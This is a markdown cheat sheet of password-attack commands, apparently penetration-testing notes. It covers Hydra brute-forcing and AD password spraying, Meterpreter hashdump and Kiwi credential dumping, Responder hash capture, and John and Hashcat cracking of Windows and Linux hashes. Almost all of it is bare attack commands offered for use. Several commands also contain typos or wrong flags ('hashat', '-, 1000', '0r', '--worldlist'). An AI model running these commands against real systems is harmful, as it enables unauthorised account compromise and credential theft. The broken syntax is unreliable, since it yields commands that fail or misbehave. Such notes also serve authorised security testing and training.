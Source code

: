 # Password Attacks
## Password Guessing
### HYDRA
```bash
hydra -l bgreen -P /opt/passwords/rockyou.txt 10.10.10.10 ssh
```

## AD Password Spraying an AD Environment
```bash
GetADUsers.py hitbox.com/bgreen:Password1 -dc-ip 10.10.10.55 -all | tee /tmp/ADUsers.txt
```
```bash
hydra -L /tmp/ADUsers.txt -p Password1 -m workgroup.{hitbox} 10.10.10.55 smb2
```

## Credential Stealing
### Meterpreter
#### Smart Hashdump
```bash
run post/windows/gather/smart_hashdump
```
#### Kiwi
```meterpreter
ps -A x64 -s
```
```meterpreter
migrate PID_of_SpoolSV
```
```meterpreter
load kiwi
```
```meterpreter
creds all
```

## John The Ripper
### Cracking Windows LM Hashes
```bash
john ~/lans/web01.hashes --show
```
### Cracking Windows NT Hashes
```bash
john --format=nt ~/labs01.hashes
```
### Cracking Windows NT Hashes w/ LoopBack
```bash
john --format=nt --loopback ~/labs01.hashes
```
### Cracking WIndows NT hashes w/ Wordlist
```bash
john --format=nt --worldlist=/opt/passwords/rockyou.txt ~/labs/web01.hashes
```
### Cracking Linux Hashes
```bash
john ~/labs/web10.shadow --wordlist=/opt/passwords/rockyou.txt
```

## Hashcat
### Cracking Windows NT Hashes
```bash
hashcat -w 3 -a 0 -m 1000 ~/labs/web01.hashes /opt/passwords/rockyou.txt
```
### Cracking Windows NT Hashes with rules
```bash
hashcat -w 3 -a 0 -, 1000 ~/labs/web01.hashes /opt/passwords/rockyou.txt -e /usr/local/share/doc/hashcat/rules/best64.rule
```

### Cracking Windows NT Hashes with Masks
```bash
hashcat -w3 -a 6 -m 1000 ~/labs.web01.hashes /opt/passwords/rockyou.txt ?d?s
```
### View Cracked Passwords
```bash
hashat -m 1000 --username --show --outfile-format 2 ~/labs/web01.hashes
```
### Crack Linux Password SHA512Crypt
```bash
hashcat -w 3 -a 0 -m 1800 ~/labs/web10.shadow /opt/passwords/rockyou.txt 0r /user/local/share/doc/hashcat/rules/best64.rule
```
### Crack NTLM Hashes
#### Set Up Responder
```bash
responder.py -I eth0
```
#### Hashcat on NTLMv2 Hashes
```bash
hashcat -w 3 -a 0 -m 5600 /opt/pcredz/logs/NTLMv2.txt /opt/passwords/rockyou.txt 
```
